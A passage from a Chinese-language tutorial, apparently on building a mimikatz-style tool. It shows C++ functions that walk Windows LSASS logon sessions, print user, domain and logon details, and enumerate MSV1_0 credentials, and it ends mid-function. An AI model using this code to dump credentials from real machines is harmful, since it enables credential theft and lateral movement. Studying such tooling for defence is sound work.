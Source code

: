 最后将 `&sessionData` 传入自定义函数 `LsaLogonData()` 打印登录信息。

# 3. 打印登录会话信息

编写 `LsaLogonData()` 函数，用于输出获取到的登录会话信息，定义如下。

```c++
BOOL LsaLogonData(PBASIC_SECURITY_LOGON_SESSION_DATA pSessionData)
{
	BOOL status = FALSE;
	if (pSessionData->LogonType != Network)
	{
		PrintLogonData(pSessionData);

		wprintf(L"\n[+] MSV1_0 Credential : ");
		if (Lsass_Msv1_0_Package.Module.isPresent && Lsass_Msv1_0_Package.isValid)
		{
			Msv1_0EnumerateCreds(pSessionData->pCredentials);
			wprintf(L"\n>>>>=================================================================\n");

		}
	}
	return status;
}
```

## 3.1 打印用户基本信息

 `LsaLogonData()` 内部调用自定义函数 `PrintLogonData()` ，用于来打印用户名、域名、登录的服务器、登陆时间以及 SID 等基本用户信息，如下所示。

```c++
void PrintLogonData(PBASIC_SECURITY_LOGON_SESSION_DATA pSessionData)
{
	const wchar_t* LSA_LOGON_TYPE[] = {
		L"UndefinedLogonType",
		L"Unknown !",
		L"Interactive",
		L"Network",
		L"Batch",
		L"Service",
		L"Proxy",
		L"Unlock",
		L"NetworkCleartext",
		L"NewCredentials",
		L"RemoteInteractive",
		L"CachedInteractive",
		L"CachedRemoteInteractive",
		L"CachedUnlock",
	};

	wprintf(
		L"[+] Session           : %s from %u\n"
		L"[+] User Name         : %wZ\n"
		L"[+] Domain            : %wZ\n"
		L"[+] Logon Server      : %wZ\n", 
		LSA_LOGON_TYPE[pSessionData->LogonType], 
		pSessionData->Session,   
		pSessionData->UserName,
		pSessionData->LogonDomain,
		pSessionData->LogonServer
	);

	wprintf(L"[+] Logon Time        : ");
	DisplayLocalFileTime(&pSessionData->LogonTime);
```
